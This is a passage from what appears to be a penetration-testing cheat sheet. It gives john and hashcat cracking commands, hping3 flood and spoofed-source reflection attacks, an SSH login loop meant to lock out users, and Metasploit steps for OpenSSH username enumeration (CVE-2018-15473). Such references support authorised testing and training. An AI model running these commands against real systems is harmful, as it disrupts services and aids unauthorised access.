     ```bash
    john --wordlist=<path/to/wordlist> <hash_file>
    ```

\


*   **Tool:**

    ```bash
    hashcat -m <mode> <hash_file> <path/to/wordlist>
    ```

### Denial of Service

**TCP/UPD Flood Attack**

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### SSH `MaxAuthTries` Exhaustion

*   **Tool:** \[\[SSH]], \[\[Custom Scripts]]

    ```bash
    while true; do ssh <username>@<target_ip>; done
    ```
* **Description:** Exhausts the allowed authentication attempts, potentially causing the SSH service to lock out legitimate users.

### Exploits

### CVE-2018-15473

*   **Tool:** \[\[Metasploit]], \[\[Custom Scripts]]

    ```bash
    use auxiliary/scanner/ssh/ssh_enumusers
    set RHOSTS <target_ip>
    set USER_FILE <user_list>
    run
    ```
* **Description:** An enumeration vulnerability in OpenSSH that allows attackers to check if a username is valid on the server.
